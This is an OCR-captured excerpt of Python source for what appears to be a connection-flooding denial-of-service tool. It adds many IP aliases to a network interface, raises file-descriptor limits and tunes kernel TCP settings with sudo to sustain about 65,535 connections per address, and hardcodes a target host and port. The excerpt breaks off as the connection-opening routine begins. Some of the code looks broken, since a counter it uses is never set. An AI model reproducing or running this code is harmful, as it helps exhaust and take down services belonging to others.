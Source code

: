 ```
        _interface = "wlan0" if "wlan0" in addrs else "eth0" if "eth0" in addrs else exec('print("[err] cannot set the interface automaticly please use -I <interface>");__import__("sys").exit(0)')
    else:
        _interface = interface
    print(f"[INIT] interface:{_interface} selected")
    interfaces = psutil.net_if_addrs()
    base_addr,netmask = "",""
    for address in interfaces[_interface]:
        if address.family == __import__("socket").AF_INET:
            (base_addr, netmask)=(address.address, address.netmask)
    prefix = str(__import__("ipaddress").ip_network(f"{base_addr}/{netmask}", strict=False)).split("/")[-1]
    subprocess = __import__("subprocess")
    nx_ip = f"{base_addr.split('.')[0]}.{base_addr.split('.')[1]}.{base_addr.split('.')[2]}.REPME"
    cmd_base = f"ip addr add {nx_ip}/{prefix} dev {_interface}"
    start_base = int(base_addr.split(".")[-1])
    its_done=False
    #COUNT=20 # 20 default ( max cnx = 0xFFFF*20)
    IPN = start_base
    lips = []
    while not its_done:
        try:
            r=subprocess.run(cmd_base.replace("REPME", str(IPN)), shell=True, check=False, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
            if r.returncode == 0:
                COUNT=COUNT-1
                IPN=IPN+1
                lips.append(nx_ip.replace("REPME", str(IPN)))
            else:
                IPN=IPN+1
            if COUNT == 0: its_done = True
        except subprocess.CalledProcessError as e:
            print(e)
            __import__("sys").exit(-1)
    return lips



def _init(I, C):
    print("[INIT] , adjusting fd limit to 1026000")
    __import__("os").system("ulimit -n 1026000")
    run_command = __import__("os").system
    print("[INIT] preapring kernel params to support ~0xffff cnx per ip")
    run_command("sudo sysctl -w net.ipv4.ip_local_port_range='1024 65535'")
    run_command("sudo sysctl -w net.ipv4.tcp_tw_reuse=1")
    run_command("sudo sysctl -w net.ipv4.tcp_fin_timeout=30")
    resource = __import__("resource")
    soft, hard = resource.getrlimit(resource.RLIMIT_NOFILE)
    resource.setrlimit(resource.RLIMIT_NOFILE, (1026000, hard))
    print("[INIT] registring more ips for used interface [default:20]")
    ips = setup_interface(I, C)
    #print(f"[INFO] ips:{ips}")

    print("[INFO] initialisation done , starting the execution of all threads")
    return ips

new_cnx = __import__("threading").Thread
(H,P) = ("192.168.11.106", 4000)

def openFDS(IP):
    counter = 0
    fails = 0
    cnxs = []
```
